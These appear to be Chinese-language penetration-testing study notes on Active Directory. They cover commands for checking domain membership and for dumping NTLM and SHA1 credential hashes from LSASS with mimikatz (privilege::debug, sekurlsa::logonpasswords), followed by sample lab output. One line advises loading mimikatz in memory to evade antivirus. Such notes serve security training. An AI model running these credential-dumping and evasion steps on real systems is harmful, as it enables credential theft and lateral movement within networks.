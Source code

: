 # 探测是否含有域
`ipconfig /all`   使用 ipconfig 命令探测是否含有域，当显示域名后缀时，则含有域或者这个主机包含在域环境中
`nslookup corp.com`  反向查找对应的 ip
`systeminfo`  也可以使用 systeminfo 来查询是否在域中
`net config workstation`  使用 net 查看本机工作环境，其中包括是否包含在域中


# 域hash存储
为了利于横向移动，要知道认证的hash存储在哪
这些hash表被存储在本地安全认证子系统服务(LSASS)内存空间中，但是LSASS运行在SYSTEM权限，则需要计算机管理员权限才可以访问
**但是，由于使用mimikaz，常见反入侵或者应用防火墙将其已经加入黑名单，所以一般会将mimikaz直接注入到内存执行，躲避防御软件**


## 使用mimikaz的sekurlsa模块获取本地存储hash
当前用户为本地主机的管理员或者输入管理员组，可以使用mimikaz工具枚举本地NTLM hash
对于 Windows2003函数级的 AD 实例，NTLM 是唯一可用的哈希算法。对于运行 WindowsServer2008或更高版本的实例，可以同时使用 NTLM 和 SHA-1(AES 加密的公共伴侣)。在较老的操作系统，如 Windows7，或者手动设置 WDigest11的操作系统上，将启用 WDigest11。
`.\mimikaz.exe`
`privilege::debug `
`sekurlsa::logonpasswords`
最后会输出本机存储的所有用户NTLM hash


```txt
结果：
Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea     #NTLM
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f    #在新版本中，NTLM与SHA1同时出现
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        tspkg :
        wdigest :
         * Username : jeff
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
```
